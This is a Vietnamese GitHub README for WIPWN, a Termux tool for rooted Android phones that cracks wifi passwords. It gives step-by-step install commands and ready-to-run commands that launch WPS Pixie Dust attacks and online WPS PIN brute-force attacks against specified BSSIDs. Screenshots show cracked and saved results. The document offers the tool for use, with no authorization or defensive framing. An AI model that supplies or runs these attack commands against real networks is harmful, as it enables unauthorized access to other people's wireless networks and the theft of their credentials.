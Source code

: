 # WIPWN

![Logo](assets/image.png)

### Quét và xem mật khẩu wifi bằng termux (Root).
    
- [Yêu cầu]
  - [Python](https://www.python.org)
  - [Pixiewps](https://www.kali.org/tools/pixiewps/)
  - [Wpa-supplicant](https://wiki.archlinux.org/title/wpa_supplicant)
 
### Cài đặt :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install git tsu python wpa-supplicant pixiewps iw openssl -y
git clone https://github.com/haidayne/wipwn
cd wipwn
chmod +x main.py
```
# Nhập thủ công :

```bash
pkg update && pkg upgrade -y
```
```bash
pkg install root-repo -y
```
```bash
pkg install git tsu python wpa-supplicant pixiewps iw openssl -y
```
```bash
git clone https://github.com/haidayne/wipwn
```
```bash
cd wipwn
```
```bash
chmod +x main.py
```

#### lệnh hỗ trợ :
```bash
sudo python main --help
```
#### Lệnh sử dụng :
```bash
cd wipwn
```

```bash
sudo python main.py -i wlan0 -K
```

#### Note: 
+ **Đầu tiên hãy tắt Wifi của bạn (bắt buộc) .**
+ **Bật Điểm phát sóng (không bắt buộc) .**
+ **Bật Vị trí.**
- Hiển thị các mạng khả dụng và bắt đầu tấn công Pixie Dust trên một mạng đã chỉ định.
```bash
sudo python main.py -i wlan0 -K
```
```bash
wipwn.sh
```
- - Bắt đầu tấn công Pixie Dust vào BSSID được chỉ định:
```bash
sudo python main.py -i wlan0 -b 00:91:4C:C3:AC:28 -K
```
- Khởi chạy WPS bruteforce trực tuyến với nửa đầu tiên được chỉ định của mã PIN:
```bash
sudo python main.py -i wlan0 -b 50:0F:F5:B0:08:05 -B -p 1234
```
### Xử lý sự cố
**"Thiết bị hoặc tài nguyên đang bận (-16)" - Bật Wifi rồi tắt Wifi.**

---

## Ảnh chụp màn hình

| Banner | Cracked | Saved Data | config.txt | 
| :---: | :---: | :---: | :---: |
| ![image](https://raw.githubusercontent.com/anbuinfosec/anbuinfosec/refs/heads/main/assets/wipwn/1.jpg) | ![image](https://raw.githubusercontent.com/anbuinfosec/anbuinfosec/refs/heads/main/assets/wipwn/2.jpg) | ![image](https://raw.githubusercontent.com/anbuinfosec/anbuinfosec/refs/heads/main/assets/wipwn/3.jpg) | ![image](https://raw.githubusercontent.com/anbuinfosec/anbuinfosec/refs/heads/main/assets/wipwn/4.jpg) |


### ❤️ Cảm ơn vì những ngôi sao và forks
[![Stargazers repo danh sách cho @anbuinfosec/wipwn](https://reporoster.com/stars/dark/anbuinfosec/wipwn)](https://github.com/anbuinfosec/wipwn/stargazers)
[![Forkers repo roster for @anbuinfosec/wipwn](https://reporoster.com/forks/dark/anbuinfosec/wipwn)](https://github.com/anbuinfosec/wipwn/network/members)
